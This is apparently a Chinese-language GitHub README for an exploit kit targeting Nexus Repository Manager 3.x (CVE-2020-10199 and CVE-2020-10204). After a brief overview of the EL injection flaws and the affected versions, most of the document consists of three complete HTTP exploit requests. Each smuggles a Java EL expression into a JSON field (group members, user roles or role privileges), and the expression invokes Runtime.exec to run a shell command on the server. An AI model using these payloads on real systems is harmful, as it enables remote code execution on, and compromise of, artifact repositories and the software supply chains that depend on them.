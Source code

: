 ## 漏洞概述

2020 年 3 月 31 日 Nexus Repository Manager 官方发布了 `CVE-2020-10199` `CVE-2020-10204` 的漏洞通告信息，两个漏洞均是由 [Github Secutiry Lab](https://securitylab.github.com/) 的是 [@pwntester](https://github.com/pwntester) 发现的。

这两个漏洞主要是由于可执行恶意 `EL表达式` 导致的。

CVE-2020-10199 的最终触发是通过给 `HelperBean` 的 `message` 进行 `EL表达式` 注入。

CVE-2020-10204 的主要原因是在`org.sonatype.nexus.security.privilege.PrivilegesExistValidator` 或 `org.sonatype.nexus.security.role.RolesExistValidator` 类中，会对不存在的 `privilege` 或 `role` 抛出错误，而在错误信息抛出的时候，会存在一个 `EL表达式` 的渲染，会提取其中的el表达式并执行，从而造成 `EL表达式` 注入。

## 影响范围

```http
Nexus Repository Manager 3.x OSS/Pro <= 3.21.1
CVE-2020-10199：需有低权限账号
CVE-2020-10204：需有管理员账号
```

## POC

CVE-2020-10199-10204.jar 图形化检测工具

1. 登录进入后台；
2. 获取登录后的cookie及scrf属性；
3. 打开本工具，填写相关信息，点击检测即可。

![](gui.png)

## EXP_CVE-2020-10199

需要普通用户权限

```http
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 195
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=396e7352-f76c-4bdd-9833-98d7990dca3b
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10199')}"]
  }
}
```

## EXP_CVE-2020-10204

1. 利用更新用户接口：

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 301
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.16936373694860252
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.16936373694860252; NXSESSIONID=4e5437b3-7755-4784-bda6-d004e8f589fb
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"]}],"type":"rpc","tid":9}
```

2. 利用创建角色接口:

```http
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 294
accept: application/json
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/swagger-ui/?_v=3.21.1-01&_e=OSS
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=da418706-f4e4-468e-93ac-de9c46802f11
Connection: close

{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/cve-2020-10204')}"],"roles":[]}],"type":"rpc","tid":89}
```

